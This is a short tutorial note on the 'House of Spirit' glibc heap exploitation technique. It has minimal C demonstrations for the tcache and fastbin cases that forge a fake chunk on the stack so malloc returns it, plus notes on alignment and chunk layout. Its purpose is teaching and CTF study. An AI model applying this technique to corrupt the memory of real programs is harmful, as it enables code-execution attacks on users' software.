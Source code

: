 # House of Spirit
> LongChampion, 13/03/2020

## with tcache (glibc >= 2.26)
This attack is quite simple, look at the code:
```
#include <stdlib.h>

int main()
{
    long long FAKE[4];
    void *ptr = malloc(0x10);
    ptr = &FAKE[2];
    FAKE[1] = 0x20;
    free(ptr);
    ptr = malloc(0x10);
}
```
## with fastbin (glibc <= 2.25)
To *hijack* fastbin, you need to create 2 chunks to bypass security check: `size` of chunk to be free must be equal to `size` of next chunk in memory.  
```
#include <stdlib.h>

int main()
{
    long long FAKE[6];
    void *ptr = malloc(0x10);
    ptr = &FAKE[2];
    FAKE[1] = 0x20;
    FAKE[5] = 0x20;
    free(ptr);
    ptr = malloc(0x10);
}
```
### Note:
- **THE MOST IMPORTANT**: `FAKE` (and all other chunks) must be aligned by `MALLOC_ALIGNMENT` (usually 16 bytes in x64 system, 8 bytes in x32 system). Your life may be destroy if you forget this.
- The `PREV_INUSE` flag is ignored, but `IS_MMAPPED` and `NON_MAIN_ARENA` can cause problem!
- The memory layout is (use for both case):
    > | FAKE | chunk           |
    > |------|-----------------|
    > | 0    | first.pre_size  |
    > | 1    | first.size      |
    > | 2    | first.fd        |
    > | 3    | first.bk        |
    > | 4    | second.pre_size |
    > | 5    | second.size     |
- In both case, `ptr` will point to `FAKE[2]` at the end (not point to `FAKE`)
- `FAKE` must have at least 4 elements (6 elements for fastbin) because when it is freed, the `fd` and `bk` pointer will be modified, this change can smash your stack frame!
- After `FAKE` is free, make sure that you call `malloc` with suitable request size so that it will return `FAKE[2]` to you.
- In the later case, make sure that distance between two chunks is equal to `size`. (they are not adjacent on memory in general case)